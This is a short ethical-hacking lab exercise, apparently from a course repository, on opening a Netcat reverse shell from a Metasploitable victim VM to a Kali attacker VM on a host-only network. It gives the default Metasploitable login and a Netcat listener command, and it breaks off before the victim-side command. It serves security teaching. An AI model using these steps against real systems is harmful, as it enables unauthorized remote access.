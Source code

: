 ## EH – Netcat Shell 01: Reverse Shell

## Objective
Learn how to use Netcat to establish a **reverse shell** on a target machine.

## Purpose
Netcat is a computer networking utility for reading/writing to network connections using TCP or UDP.

## Tools
- Kali Linux VM (Attacker)
- Metasploitable VM (Victim)

## Steps

### 1. Setup
Put both VMs on the same **host-only network**.  
Login to Metasploitable: `msfadmin/msfadmin`.

### 2. Start Listener on Kali
```bash
ifconfig     # find Kali IP
nc -l -v -n -p 443
